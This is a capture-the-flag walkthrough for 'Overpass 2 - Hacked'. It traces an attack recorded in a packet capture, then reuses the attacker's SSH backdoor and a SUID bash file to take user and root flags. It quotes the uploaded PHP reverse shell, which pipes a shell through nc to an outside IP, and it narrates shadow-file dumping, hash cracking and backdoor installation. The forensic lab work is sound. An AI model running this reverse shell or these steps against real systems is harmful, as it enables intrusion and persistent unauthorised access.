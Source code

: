 # Overpass 2 - Hacked

## Description

Overpass has been hacked! Can you analyse the attacker's actions and hack back in?
* **Category**: Walkthrough

## Forensics - Analyse the PCAP

Overpass has been hacked! The SOC team have noticed some suspicious activity and have managed to capture some packets as the attack happened. We need to find out how the attacker got in and hack our way back in! First, we need to open the PCAP file with Wireshark and analyse the traffic.

![](wireshark.png)

At first glance, we can see a POST request to `/development/upload.php`. This could be where the attacker uploaded some kind of exploit. Let's check out the packet details.

![](reverse-shell-upload-packet.png)

We can see that the uploaded file name is `payload.php`. We now confirm that the attacker uploaded some kind of exploit.

![](reverse-shell-source-from-packet.png)

From the encapsulated multipart form data, we can see the source code of the uploaded file where part of it is:

```php
<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f"); ?>
```

The IP address from the source code is the source IP address of the packet. We can now be sure that the payload is a reverse shell. Now we need to find the connection that the attacker made to the reverse shell. Since we've already known the reverse shell's file name, this should be easy.

![](reverse-shell-connection-packet.png)

We can see that after the attacker request a GET request to `/development/uploads/payload.php`, the server created a 3-way handshake connection to the attacker's IP address at port 4242. This is the reverse shell connection. Now that we know a connection's packet, we can follow the TCP stream to see the attacker's actions.

![](shell-history.png)

Now we can see that as the attacker got the shell, they continued to logged in as user `james` with his password.

![](persistence.png)

We can see that the attacker tried to dump the password hashes from `/etc/shadow` which some of them can be cracked with `john`.

![](john.png)

After that, we can see that the attacker then try to establish persistence by downloading an SSH backdoor from `https://github.com/NinjaJc01/ssh-backdoor` and then install it. We now need to find information about the backdoor.

![](backdoor-info.png)

We can see that the SSH backdoor is started on port 2222. There is some kind of hash provided to execute the backdoor. Maybe a look at the source code will give us more information.

## Research - Analyse the code

![](default-backdoor-hash.png)

We can see a hardcoded default hash in the source code. Also from the import list, we can see a `crypto/sha512` package. This could be the hashing algorithm used to hash the password.

![](default-backdoor-salt.png)

As we scroll down a bit, we can see a hardcoded salt passed in as a parameter of a function. Time to crack the hash!

![](password-cracked.png)

Thanks to hashcat, we cracked the hash and got the password. Time to get back in!

## Attack - Get back in!

We are given an IP address. Let's check out the website.

![](defaced-website.png)

Damm! Our website has been defaced! Let's use `nmap` to scan for open ports.

![](nmap.png)

There is the SSH backdoor on port 2222. We can now use the password we cracked to get back in.

![](backdoor-login.png)

And we are in! We can get the flag from the user `james`'s home directory.

![](user-flag.png)

We now need to escalate our privileges to root.

![](suid_bash-file.png)

After looking around a bit, we found a `.suid_bash` file in the home directory. We can see it has the SUID bit set. Let's check on GTFOBins for an exploit.

![](root-flag.png)

After running the exploit, we got the root flag!